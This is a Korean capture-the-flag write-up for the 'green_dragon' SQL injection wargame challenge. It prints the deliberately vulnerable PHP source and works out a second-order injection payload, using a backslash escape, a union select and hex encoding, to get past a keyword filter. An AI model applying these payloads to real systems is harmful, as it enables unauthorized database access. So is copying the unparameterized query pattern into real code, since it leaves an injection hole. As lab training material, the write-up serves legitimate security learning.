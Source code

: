 # green_dragon

## 1. Code
```php
<?php
  include "./config.php";
  login_chk();
  $db = dbconnect();
  if(preg_match('/prob|_|\.|\'|\"/i', $_GET[id])) exit("No Hack ~_~");
  if(preg_match('/prob|_|\.|\'|\"/i', $_GET[pw])) exit("No Hack ~_~");
  $query = "select id,pw from prob_green_dragon where id='{$_GET[id]}' and pw='{$_GET[pw]}'";
  echo "<hr>query : <strong>{$query}</strong><hr><br>";
  $result = @mysqli_fetch_array(mysqli_query($db,$query));
  if($result['id']){
    if(preg_match('/prob|_|\.|\'|\"/i', $result['id'])) exit("No Hack ~_~");
    if(preg_match('/prob|_|\.|\'|\"/i', $result['pw'])) exit("No Hack ~_~");
    $query2 = "select id from prob_green_dragon where id='{$result[id]}' and pw='{$result[pw]}'";
    echo "<hr>query2 : <strong>{$query2}</strong><hr><br>";
    $result = mysqli_fetch_array(mysqli_query($db,$query2));
    if($result['id'] == "admin") solve("green_dragon");
  }
  highlight_file(__FILE__);
?>
```

## 2. Condition
- 1차적으로 get 파라미터 `id`와 `pw`의 값을 받고 쿼리를 보낸다.('query :')   
- 2차적으로 위에서 나온 결과의 `id`와 `pw`를 다시 쿼리로 보낸다.('query2 :')   
- 두 과정에서 모두 `prob _ . ' "`를 필터링한다.   
- 최종적으로 마지막 쿼리의 결과가 `admin`이라면 문제가 해결된다.   

## 3. Solution
위 에서 말했듯이, 두 부분으로 나누어 생각해야 한다.   
최종단계 부터 거꾸로 거슬러 올라가면 쉽게 해결된다.   

------
### 1. 쿼리의 결과 `id`값이 `admin`이어야 한다   
>    `' "`가 필터링 되므로, `\`문자를 통해 이스케이핑 시키는 방법을 이용한다.   
    그리고 문자 'admin'은 hex값을 통해 우회하였다.

변수명 | 값
---|---
`id` | \
`pw` | union select `0x61646d696e`


다음 단계로 넘어가보자.    


------
### 2. 쿼리의 결과 `id`값이 `\`, `pw`값이 `union select 0x61646d696e`이어야 한다.   
>    마찬가지로, `\`를 이용한 이스케이핑을 한다.   
    1번 과정에서 필요한 값과 구문들을 모두 hex값으 변환하여 보내었다.   

    `\` > 0x5c
    `  union select 0x61646d696e#` > 0x20756e696f6e2073656c6563742030783631363436643639366523    

변수명 | 값
---|---
`id` | \
`pw` | %20union%20select%20`0x5c`,`0x20756e696f6e2073656c6563742030783631363436643639366523`%23


성공적으로 문제가 해결된다.